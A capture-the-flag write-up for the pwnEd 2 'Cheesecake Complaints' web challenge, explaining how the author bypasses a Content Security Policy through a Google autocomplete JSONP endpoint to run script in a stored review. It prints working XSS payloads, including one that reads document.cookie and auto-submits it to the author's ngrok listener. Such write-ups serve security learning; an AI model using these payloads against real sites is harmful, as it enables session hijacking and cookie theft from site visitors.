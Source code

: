 ```yaml
---
title: "pwnEd 2 - Cheesecake Complaints Writeup"
tags: ["web", "pwned2ctf"]
date: 2021-03-04T21:46:23Z
author: "Josh H."
draft: false
---
```


Here's my writeup of the Cheesecake Complaints from the [pwnEd 2 CTF](https://pwned.sigint.mx), hosted by Edinburgh University.

The challenge description tells us that there is a secret cookie that we need to steal.

![Challenge Description](pwned-ctf-cheesecake-1.png)

Once we navigate to the URL provided, we are greeted with a cheesecake review form with a Google reCAPTCHA. Let's firstly observe what happens once we submit a review.

![Initial Form](pwned-ctf-cheesecake-3.png)

We're given a link to the review and the helpful message `An admin will review it shortly`. My guess was that the page was going to be read by an administrator after submission, using the secret cookie to access it.

![Initial Form Submitted](pwned-ctf-cheesecake-4.png)

As expected, navigating to the link shows us our submitted content.

![Initial Review](pwned-ctf-cheesecake-5.png)

The next thing to try is whether any form of XSS protection is applied. By submitting `<strong>hello world</strong>`, we can see that there is no immediate XSS filtering.



Now, let's try include some Javascript using an inline `<script>` tag. Submitting the content `<script>alert(1);</script>` gave us our first indication into what this challenge is looking for.

![Script Test](pwned-ctf-cheesecake-7.png)

We cannot run inline script content due to the Content Security Policy given by the page. The CSP provides an extra layer of security that prevents web browsers from executing certain types of content and is very helpful in preventing trivial XSS attacks.

My next step was to run this site through Google's CSP validator, which provides useful reporting on a site's CSP and whether it can be exploited.

![CSP Validator Response](pwned-ctf-cheesecake-8.png)

`www.google.com is known to host JSONP endpoints which allow to bypass this CSP.` Bingo! The next step is a lot of googling for these "JSONP endpoints." The top result when you search `google.com JSONP endpoints` is [JSONBee](https://github.com/zigoo0/JSONBee), a GitHub repository with lots of JSONP endpoints that can be exploited for sites commonly included in allowed script-srcs in CSP.

The first payload listed for Google is `<script src="https://www.google.com/complete/search?client=chrome&q=hello&callback=alert#1"></script>`. Submitting that as a review gives us something very promising.

![Callback Submission](pwned-ctf-cheesecake-9.png)

I spent a while playing around with this. One problem with the `callback` parameter is that it will only accept letters, numbers and dots. This means we're very restricted on the types of commands that we can execute and are restricted to calling already defined Javascript functions. After some more googling, I found [this blog post](https://shreyaschand.com/blog/2013/01/03/google-autocomplete-api/) talking about the Autocomplete API and most usefully, the `jsonp` query. So I gave this query a go and for some reason, this endpoint accepted a wider range of characters, most importantly, backticks, parathenese and the equal sign. 

My next payload was just a simple alert (note the use of backticks around the alert string): ```<script src="https://www.google.com/complete/search?client=chrome&q=hello&jsonp=alert(`hello`)"></script>```. However, when I opened up the review, there was no alert but there was an error in the console.

![JSONP Initial](pwned-ctf-cheesecake-10.png)

This is good, as it means the function is being called, however it's being called with weird parameters. If we click ```search?client=chrome...np=alert(`hello`):1```, we can see where the error comes from.

![Alert Error](pwned-ctf-cheesecake-11.png)

The JSONP callback is essentially prepended to the data. Therefore, it's attempting to call the function ```alert(`hello`)``` with the data returned from the Google endpoint. Therefore, I tried adding something after the alert call to prevent the parameters being used to call my intended function. My next payload was ```<script src="https://www.google.com/complete/search?client=chrome&q=hello&jsonp=alert(`hello`);console.log"></script>```


![Alert Console.log Solution](pwned-ctf-cheesecake-12.png)

![Alert Console.log Output](pwned-ctf-cheesecake-13.png)

By using the JSONP callback ```alert(`hello`);console.log```, my alert function is called, and then the JSON data is appended to the console.log, meaning the JSON result will be outputted to the console instead. This is exciting as we can chain together multiple Javascript functions. At this point, we're ready to start considering stealing the secret cookie.

After some exploration, I decided to use a HTML form which could submit data to a local webserver. I could automatically cause the form to be submitted using the `jsonp` query. In this time, I also confirmed that the review is automatically opened up by HeadlessChrome being submitted. To run a quick webserver, I used an Apache & Docker image with ngrok, which allows me to quickly punch through my firewall so the website is accessible from the outside world.

```
docker run --name cheesecake-listener -p 8080:80 romeoz/docker-apache-php
ngrok http 8080
```

[ngrok](https://ngrok.com/) gives you a URL on their server which acts as a reverse proxy for your localhost site. This makes it super easy to host arbitary localhost sites for a short period of time without having to worry about port forwarding or setting up the webserver on a VPS.

I used this payload, which includes a POST form where the action is my ngrok URL and the `jsonp` query will set the input's value to document.cookie and automatically submit the form.

```
<form action="http://363822625688.eu.ngrok.io/output.php" method="POST" id="form">
    <input name="hello" id="cookie"/>
</form>

<script src="https://www.google.com/complete/search?client=chrome&q=hello&jsonp=document.getElementById(`cookie`).value=document.cookie;document.getElementById(`form`).submit();console.log"></script>
```

Looking in ngrok's web interface, we can see the request and most importantly, the form parameters that were included with the request.

![Exfiltration 1](pwned-ctf-cheesecake-14.png)

And there's our flag! This was my second blood in this CTF and I was super happy with the result. The `jsonp` query appears to be fairly unknown and finding it meant I was able to chain multiple Javascript functions and not be restricted to just letters, numbers and dots. 

This blog post can also be found on Josh's personal site: https://techsupportjosh.com/posts/pwned-ctf-cheesecake/
